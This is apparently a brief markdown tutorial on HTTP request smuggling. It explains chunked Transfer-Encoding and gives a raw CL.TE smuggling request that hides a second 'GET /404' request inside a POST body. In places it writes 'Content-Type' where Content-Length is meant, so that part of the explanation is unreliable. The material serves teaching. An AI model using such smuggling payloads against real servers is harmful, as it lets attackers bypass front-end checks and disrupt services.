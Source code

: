 # HTTP request smuggling

This vulnerability Usually Occurs due to disparity between two nodes and and the intended recipient of the HTTP request parses the request it is not supposed to or it does it in a way it is doesnt intend to. This way a request can be smuggled sometimes bypassing checks and sometimes dirupting services.


Two Important Header to Take Note Of:

- Content-Length
- Transfer-Encoding

### TE (Transfer Encoding)

After sending the headers and the Transfer-Encoding: chunked declaration, the server sends the response body in a series of chunks. Each chunk begins with the size of the chunk, in hexadecimal, followed by a CRLF (Carriage Return and Line Feed) sequence.
Then comes the chunk data, followed by another CRLF. Here's an example of what a chunk might look like:
```
4\r\n
This\r\n
7\r\n
is a test\r\n
0\r\n
\r\n

```

 The final chunk has a size of 0, which indicates the end of the response. The client understands that the response is complete when it receives a chunk with a size of 0.


CASE 1:

Between Two nodes , First node refers to Front End Node and the Second Node refers to Back End Node 

If the First Node uses Content Type and the Second Node doesn't but supports Transfer Encoding ... An attacker can abuse this behavior to smuggle an additional request the first Node wont account for , but the second node will accept and parse.

```
POST / HTTP/1.1
Host: Host
Sec-Ch-Ua: 
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: ""
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 32
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
Ola: Ola
```

in situation this request was used , the First Node will see a POST request with 

```
0

GET /404 HTTP/1.1
Ola: Ola
```
as body because it uses the Content-Type header to parse the request, this allows ``` GET /404 HTTP/1.1
Ola: Ola``` to go unchallenged by the first node , but once it gets to the second node which uses *Transfer-Encoding* it sees two request instead one a post request that uses a chunk and ends without a body and a second request ```GET /404 HTTP/1.1
Ola: Ola``` ... This way both request will be processed and if there are any checks in the first node , it has been bypassed
